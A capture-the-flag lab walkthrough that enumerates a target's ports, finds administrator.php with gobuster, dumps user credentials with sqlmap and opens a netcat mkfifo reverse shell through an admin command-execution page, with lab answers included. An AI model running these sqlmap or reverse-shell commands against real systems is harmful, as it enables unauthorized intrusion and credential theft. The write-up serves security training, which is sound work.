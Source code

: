 **Q&A:**
- **How many ports are open on the target machine?**  
  `2`
- **What is the http-title of the web server?**  
  `Apache2 Ubuntu Default Page: It works`
- **What version is the ssh service?**  
  `OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`
- **What version is the http service?**  
  `Apache/2.4.18`

---

## Web Enumeration

Run Gobuster to find interesting files:

```bash
gobuster dir -u http://10.201.13.85/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o dir_results.txt -x "php,txt,html" -t 25 
```

**Results:**
```
/administrator.php    (Status: 200) [Size: 409]
/index.html           (Status: 200) [Size: 10918]
```
![gobuster.png](gobuster.png)

**Q&A:**
- **What is the name of the important file on the server?**  
  `administrator.php`

---

## SQL Injection

Capture the HTTP request for `administrator.php` and run sqlmap:

```bash
sqlmap -r req.txt -u http://10.201.13.85/administrator.php --dbs
sqlmap -r req.txt -D users --tables
sqlmap -r req.txt -D users -T users --dump
```

**Credentials Found:**
- `username: pingudad`
- `password: secretpass`

![sqlmap_dump.png](sqlmap_dump.png)

After logging in, the admin dashboard exposes a command execution feature.

**Reverse Shell Command:**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <YOUR_IP> 8888 >/tmp/f
```
![reverse_shell.png](reverse_shell.png)
